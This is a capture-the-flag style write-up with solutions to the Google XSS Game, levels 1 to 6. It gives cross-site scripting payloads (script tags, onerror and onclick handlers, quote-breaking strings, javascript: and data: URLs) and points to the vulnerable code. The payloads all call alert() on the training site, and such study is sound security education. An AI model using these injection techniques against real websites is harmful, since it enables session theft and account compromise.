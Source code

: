 # Solutions to Google XSS Challenges

## Level 1

### How to trigger the vulnerability?
```html
<script>alert()</script>
```

### Where is the vulnerable code?
In [level1.py](source-code/level-1.py), the input strings are directly being rendered without any escaping or validation.

```python
message = "Sorry, no results were found for <b>" + query + "</b>."

self.render_string(page_header + message + page_footer)

def render_string(self, s):
    self.response.out.write(s)
```

## Level 2

### How to inject Javascript code?
Since simply using `<script>...</script>` will not work in this case, we need to find other ways to inject Javascript code.

Some options:

```html
<a href="#" onclick="alert()">Click Me To Exploit!</a>
```

```html
<img src="hahaa" onerror="alert()">
```

### Vulnerable code
<!-- TODO -->
**TODO**

## Level 3

### How to exploit?
In this level I've come up with two ways to exploit the xss vulnerabilities.

First, modify the URL such that the image will not be displayed and thus trigger the `onerror` event which we injected.
```url
https://xss-game.appspot.com/level3/frame#4' onerror="alert()" alt='exploited_image
```
An alternative solution will be the web page as normal render the correct image (for example, 3.jpg), but this time we add the `onClick` event into the image. So the injected JS code will be triggered when the user click that correctly displayed image.
```url
https://xss-game.appspot.com/level3/frame#1.jpg' onClick="alert()" alt='will_not_display
```


### Vulnerable Code

The vulnerable code appears at Line17 of [index.html](/source_code/level-3/index.html) file. This allows attacker to inject Javascript code using `onerror` event in the `img` tag.
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

After injecting the above url, the `img` tag of the html file will be rendered as
```html
<img src='/static/level3/cloud/4' onerror="alert()" alt='exploited_image.jpg' />
```
---
#### *NOTICE*:
The image is stored inside the database as `1.jpg`. So if you modify the image tag as
```html
<img src='/static/level3/cloud/1.jpg' onerror="alert()" alt='will_not_display.jpg' />
```
will NOT trigger the `onerror` event.

Just delete the `.jpg` extension will make the image un-displayable and thus trigger the `onerror` event :)

## Level 4

### How to exploit?
Input the following weird string to become the timer!
```
3');alert('
```

### Analysis
In this case, the vulnerable code locates at line 21 of the  [timer.html](/source_code/level-3/timer.html) file.

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

With proper numerical input, the `onload` event execute the function `startTimer('3');` without any problem. In this case, `3` is the type of string, and will eventually be parsed as integer (`parseInt`) in the startTimer function.

Thus, we can utilize the `onload` event to add additional javascript code! If our input is OUR_INPUT_STRING, the `startTimer` function will look like this:
```js
onload="startTimer('OUR_INPUT_STRING')"
```

If we intentionally set our input to be `3');`, some magical things then happen! We have manually escaped the startTimer function! In this case, the onload event looks like this:
```js
// I intentionally make a space after the `;` of startTimer function. Just to make things clearer :)
onload="startTimer('3'); ')"
```
The remaining `');'` is "auto-filled" by the program, so the remaining thing we need to do is to add `alert('` after our above-mentioned tricky string. Now we have successfully injected the javascript code into the web page!

The **injected** `onload` event will become like this:
```js
onload="startTimer('3');alert('')"
```

## Level 5

### How to exploit?
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')
```

In the `signup` page, change the value of the `next` parameter in the URL. Use `javascipt:alert()` instead of "confirm"!

So the URL for our exploitation will become
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```

*NOTICE*: After you forge the URL in this case, you need to **click the GO button first**, then entering your mail and clicking the Next button. Only in this case will make that forged URL valid. After that, enjoy the result javascript alert popping up :)

### Analysis
<!-- TODO -->
TODO

## Level 6

### Exploit Code

```html
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

Another way to work...
```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('')
```

### Analysis
